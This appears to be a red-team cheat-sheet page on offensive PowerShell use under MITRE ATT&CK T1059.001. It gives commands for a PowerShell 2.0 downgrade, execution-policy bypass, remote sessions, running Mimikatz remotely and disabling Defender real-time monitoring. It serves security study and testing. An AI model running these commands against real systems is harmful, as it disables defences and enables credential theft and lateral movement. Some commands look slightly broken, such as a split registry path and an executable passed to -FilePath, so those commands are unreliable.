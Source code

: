 ```yaml
---
description: MITRE ATT&CK, Execution, Technique T1059.001
---
```


# PowerShell

[Command and Scripting Interpreter, Sub-technique T1059.001](https://attack.mitre.org/techniques/T1059/001/)

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session #
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```
